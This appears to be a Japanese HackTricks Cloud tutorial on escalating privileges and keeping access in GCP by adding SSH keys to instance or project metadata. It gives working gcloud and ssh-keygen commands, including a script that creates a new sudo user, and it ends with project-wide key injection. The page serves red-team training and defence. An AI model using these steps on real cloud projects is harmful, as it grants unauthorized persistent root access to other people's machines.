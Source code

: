 # GCP - カスタムSSHメタデータの追加

{% hint style="success" %}
AWSハッキングの学習と練習:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングの学習と練習: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポート</summary>

* [**購読プラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* **ハッキングトリックを共有するためにPRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **と** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出**してください。

</details>
{% endhint %}

## メタデータの変更 <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

インスタンスのメタデータの変更は、**攻撃者が必要な権限を取得した場合には重大なセキュリティリスク**につながる可能性があります。

### カスタムメタデータへのSSHキーの組み込み

GCPでは、**Linuxシステム**はしばしば[Google Compute Engine用Python Linuxゲスト環境](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)からスクリプトを実行します。これの重要なコンポーネントは[アカウントデーモン](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)で、これは**定期的に**インスタンスのメタデータエンドポイントをチェックして**認証済みSSH公開キーの更新**を行います。

したがって、攻撃者がカスタムメタデータを変更できれば、デーモンが新しい公開キーを見つけ、それが処理されて**ローカルシステムに統合**されるようにすることができます。そのキーは既存のユーザーの`~/.ssh/authorized_keys`ファイルに追加されるか、キーの形式に応じて`sudo`権限を持つ新しいユーザーが作成される可能性があります。そして、攻撃者はホストを侵害できるようになります。

### 既存の特権ユーザーにSSHキーを追加する

1. **インスタンス上の既存のSSHキーを調べる:**
- インスタンスとそのメタデータを説明するコマンドを実行して、既存のSSHキーを特定します。出力の関連セクションは`metadata`の下にあり、特に`ssh-keys`キーの下にあります。
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
- SSHキーの形式に注意してください：ユーザー名はコロンで区切られたキーの前にあります。

2. **SSHキーのメタデータ用のテキストファイルを準備する:**
- ユーザー名とそれに対応するSSHキーの詳細を`meta.txt`という名前のテキストファイルに保存します。これは新しいキーを追加する際に既存のキーを保持するために重要です。

3. **ターゲットユーザー(`alice`を例として)の新しいSSHキーを生成する:**
- `ssh-keygen`コマンドを使用して新しいSSHキーを生成し、コメントフィールド(`-C`)がターゲットのユーザー名と一致することを確認します。
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- インスタンスのメタデータで見つかった形式に準じて、新しい公開キーを`meta.txt`に追加します。

4. **インスタンスのSSHキーのメタデータを更新する:**
- `gcloud compute instances add-metadata`コマンドを使用して、更新されたSSHキーのメタデータをインスタンスに適用します。
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **新しいSSHキーを使用してインスタンスにアクセスする:**
- 新しいキーを使用してSSHでインスタンスに接続し、ターゲットユーザー(`alice`を例として)のコンテキストでシェルにアクセスします。
```bash
ssh -i ./key alice@localhost
sudo id
```

### 新しい特権ユーザーを作成してSSHキーを追加する

興味深いユーザーが見つからない場合、`sudo`権限が与えられる新しいユーザーを作成することが可能です。
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### プロジェクトレベルでのSSHキー <a href="#sshing-around" id="sshing-around"></a>

クラウド環境内の複数の仮想マシン（VM）へのSSHアクセス範囲を広げるために、**プロジェクトレベルでSSHキーを適用**することが可能です。このアプローチにより、プロジェクト内の任意のインスタンスにSSHアクセスできるようになります（プロジェクト全体のSSHキーが明示的にブロックされていない場合）。以下は要約したガイドです：

1. **プロジェクトレベルでSSHキーを適用：**
- `gcloud compute project-info add-metadata`コマンドを使用して、`meta.txt`からSSHキーをプロジェクトのメタデータに追加します。この操作により、SSHキーがプロジェクト内のすべてのVMで認識されるようになります。ただし、VMが「プロジェクト全体のSSHキーをブロックする」オプションを有効にしていない限りです。
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **プロジェクト全体のキーを使用してインスタンスにSSHする：**
- プロジェクト全体のSSHキーが設定されている場合、プロジェクト内の任意のインスタンスにSSHできます。プロジェクト全体のキーをブロックしていないインスタンスはSSHキーを受け入れ、アクセスを許可します。
- インスタンスに直接SSHする方法は、`gcloud compute ssh [INSTANCE]`コマンドを使用することです。このコマンドは、現在のユーザー名とプロジェクトレベルで設定されたSSHキーを使用してアクセスを試みます。


# 参考文献
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
